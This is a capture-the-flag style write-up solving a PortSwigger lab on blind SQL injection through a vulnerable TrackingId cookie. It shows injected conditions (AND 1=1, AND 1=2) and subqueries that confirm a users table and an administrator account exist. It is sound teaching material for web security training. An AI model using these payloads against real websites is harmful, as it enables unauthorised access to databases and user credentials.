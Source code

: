 ## Lab Description:

<img width="872" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/a598c10e-2048-4339-a178-895098e40214">

## Solution:

Request looks like

<img width="1424" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/1758de7a-56fb-47f3-beff-957f4204c10a">

Query made looks something like -

```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'``
where trackingID - RF41TkGpQO3LfVmy Cookievalue - 9q7s4KSbzFFl0VDX4DTcgB81yZw99QJs```

TrackingID parameter is vulnerable. This is a blind SQL injection since response is not diplayed back.

We can perform a SQL injection on trackingID parameter ,

```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '```

there maybe 2 results - TrackinID does/does not exist.

Condition(1=1) = TRUE -> Welcome back message is shown

```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '```

<img width="1206" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/8b82fc69-9611-4f38-9189-804bf35b3aff">

Condition(1=2) = FALSE -> Welcome back message is not shown

```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '```

<img width="1204" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/2ce92fce-012e-42be-a942-acd84280c5dc">

From the above responses, we can we can exploit the blind injection vulnerablitiy .

Conform that there is users table -

```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'x' FROM users LIMIT 1) = 'x' --```

This SQL statement is checking whether the result of a subquery, which selects the string 'x' from the users table with a limit of 1, is equal to the string 'x'. The use of the AND operator indicates that this condition must be true for the overall query to return any results

If users table  is there, then the condition return x . It checks if returned 'x' = 'x'. Now condition is TRUE. So it conforms that users table is present.

<img width="1437" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/db173a42-05b1-432a-ae57-6503b78f77de">

We see a Welcome back msg , so it conforms that there is a users table.

Conform that username administrator is present in users table -

```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator')='a```

<img width="1200" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/07909443-b82c-4be1-affe-a8678dcd2fc6">

We confirm that there is a user called administrator in the database.
```